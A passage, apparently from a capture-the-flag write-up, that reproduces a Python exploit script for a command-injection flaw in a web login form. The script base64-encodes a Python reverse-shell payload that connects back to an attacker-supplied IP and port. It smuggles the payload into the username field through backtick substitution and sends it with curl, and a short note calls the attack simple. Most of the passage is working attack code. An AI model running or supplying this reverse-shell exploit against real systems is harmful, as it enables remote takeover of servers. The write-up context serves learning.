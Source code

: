 
## 🎯 **Exploit**

```python
'''
  ██████  ██▓███   ▒█████   ▒█████   ██ ▄█▀ ██▓▓█████  ██▀███  
▒██    ▒ ▓██░  ██▒▒██▒  ██▒▒██▒  ██▒ ██▄█▒ ▓██▒▓█   ▀ ▓██ ▒ ██▒
░ ▓██▄   ▓██░ ██▓▒▒██░  ██▒▒██░  ██▒▓███▄░ ▒██▒▒███   ▓██ ░▄█ ▒
  ▒   ██▒▒██▄█▓▒ ▒▒██   ██░▒██   ██░▓██ █▄ ░██░▒▓█  ▄ ▒██▀▀█▄  
▒██████▒▒▒██▒ ░  ░░ ████▓▒░░ ████▓▒░▒██▒ █▄░██░░▒████▒░██▓ ▒██▒
▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░░ ▒░▒░▒░ ░ ▒░▒░▒░ ▒ ▒▒ ▓▒░▓  ░░ ▒░ ░░ ▒▓ ░▒▓░
░ ░▒  ░ ░░▒ ░       ░ ▒ ▒░   ░ ▒ ▒░ ░ ░▒ ▒░ ▒ ░ ░ ░  ░  ░▒ ░ ▒░
░  ░  ░  ░░       ░ ░ ░ ▒  ░ ░ ░ ▒  ░ ░░ ░  ▒ ░   ░     ░░   ░ 
      ░               ░ ░      ░ ░  ░  ░    ░     ░  ░   ░     
'''

import sys;
import os;
import base64;

def main():
	listening_IP = None
	listening_PORT = None
	target_URL = None

	if len(sys.argv) != 4:
		print("Error. Needs listening IP, PORT and target URL.")
		return(-1)
	
	listening_IP = sys.argv[1]
	listening_PORT = sys.argv[2]
	target_URL = sys.argv[3] + "/login"
	print("Running exploit on " + str(target_URL))
	curl_cmd(listening_IP, listening_PORT, target_URL)

def curl_cmd(my_ip, my_port, target_url):
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
	os.system(command)

if __name__ == "__main__":
  main()
```

Looking through the exploit, we can understand that this service is vulnerable to "Remote Code Execution (RCE)". We can just create a payload and send it encoded in a `curl` request through the `username` parameter. Pretty simple. Let's test it.
